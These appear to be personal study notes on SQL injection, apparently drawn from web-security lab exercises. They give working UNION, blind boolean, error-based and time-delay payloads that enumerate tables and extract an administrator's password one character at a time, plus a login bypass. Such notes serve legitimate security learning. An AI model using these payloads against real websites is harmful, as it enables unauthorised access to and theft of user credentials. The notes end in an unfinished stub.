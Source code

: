 # Retrieving hidden data

## simple attack 
`https://insecure-website.com/products?category=Gifts` -> `SELECT * FROM products WHERE category = 'Gifts' AND released = 1` 
=> after injecting `'+OR+1=1--` -> `SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`

## Examining the database

> **determine number of columns/which column contains text**: `'+UNION+SELECT+'abc','def'+FROM+dual--`
> **database version**: `'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`

- On <mark style="background: #BBFABBA6;">MySQL and Microsoft</mark>
>  `'+UNION+SELECT+'abc','def'#`
>  `'+UNION+SELECT+@@version,+NULL#`
## Listing the contents 

- <mark style="background: #FF5582A6;">Oracle</mark>
>**number of columns**: `'+UNION+SELECT+'abc','def'+FROM+dual--`
>**list of tables in the database**: `'+UNION+SELECT+table_name,NULL+FROM+all_tables--`
>**details of the columns in the table**:`'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--`
>**usernames and passwords for all users**: `'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--`

- <mark style="background: #FF5582A6;">non-Oracle</mark>
>`'+UNION+SELECT+'abc','def'--`
>`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
>`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--`
>`'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--`

# Blind SQL injection
## triggering conditional responses

- let's say the original value of the cookie is `TrackingId=xyz`.
>1) **Modify the cookie**: `TrackingId=xyz' AND '1'='1` -> "Welcome back" message appears in the response
>2) **change it to**: `TrackingId=xyz' AND '1'='2` ->  "Welcome back" message does not appear in the response
>3) `TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a` ->  there is a table called `users`
>4) `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a` -> there is a user called `administrator`
>5) `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a` -> password is greater than 1 character in length.
>6) burp intruder/Repeater =>  password is 20 characters long.
>7) `TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§` -> first character
>8) `TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§` ->2nd character
>And so on...

## Error-based

### triggering conditional errors

- simple example:
> `xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a` -> evaluates to `'a'` => no error 
> `xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a` -> evaluates to `1/0` => divide-by-zero error
> => **you can retrieve data by testing one character at a time**: `xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

- another example:
  - let's say the original value of the cookie is `TrackingId=xyz`.
>1) **Modify the cookie**: `TrackingId=xyz'` -> error message is received
>2) **change it to two quotation marks**: `TrackingId=xyz''` -> the error disappears
>3) **confirm that the server is interpreting the injection as a SQL query**:
> - `TrackingId=xyz'||(SELECT '')||'` -> `TrackingId=xyz'||(SELECT '' FROM dual)||'` -> no error => oracle database(as we used dual) 
> - `TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'` -> error again
> 4) **verify that the `users` table exists** -> `TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`
> 5) **exploit this behavior to test conditions**: 
> - `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'` -> error received
> - `TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'` -> error disappears
>6) **check whether the username `administrator` exists**: `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
>7) **determine the length of administrator's password**:  `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>§1§ THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'` (use intruder)
>8) **test the character at each position to determine its value**: 
>- `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
>- `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'` 
>- and so on...
### verbose SQL error messages

  - let's say the original value of the cookie is `TrackingId=xyz`.
  >1) **Modify the cookie**: `TrackingId=xyz'` -> error message is received
  >2) **comment out the rest of the query**: `TrackingId=ogAZZfxtOKUELbuJ'--` -> comments the extra single quote -> no longer error 
  >3) **raise an error using `cast` keyword**: `TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--` -> error: `AND condition must be a boolean expression`
  >4) **modify the condition accordingly (to recieve no error)**: `TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--` -> no longer error
  >5) **use `SELECT` to retrive usernames from database**: `TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--` -> error: character limit 
  >6) **Delete the original value of the cookie(to free up some additional characters)**: `TrackingId='...` -> error: unexpectedly returned more than one row  
  >7) **Modify the query to return only one row**: `TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--` -> error leaks the first username: `ERROR: invalid input syntax for type integer: "administrator"`
  >8) **leak password**: `TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--` 
## triggering time delays

- simple example:
  >`'; IF (1=2) WAITFOR DELAY '0:0:10'--` -> condition false => no delay
  >`'; IF (1=1) WAITFOR DELAY '0:0:10'--` -> condition true => 10 sec delay
  >=> **retrive data using one character at a time**: `'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

let's say we have a *cookie* called `TrackingId` and the *database is PostgreSQL* .

- *example of time delays:*
  > `TrackingId=x'||pg_sleep(10)--` -> 10 sec delay

- *time delays and information retrieval*:
> 1) **10 sec conditional delay**: 
> - `TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--` -> true => delay
> - `TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--` -> false => no delay
> 2) **confirm `administrator` user**: `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
> 3) **determine the length of the password**(use intruder/repeater): `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>§1§)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
> 4) **extract the password**(use intruder/repeater): 
> - **first character**: `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
> - **2nd**: `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
> - and so on ...
# Subverting application logic

## simple attack 
`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'` 
=> submit username as `administrator'--` -> `SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`
# ## Second-order SQL injection 
#todo 
/git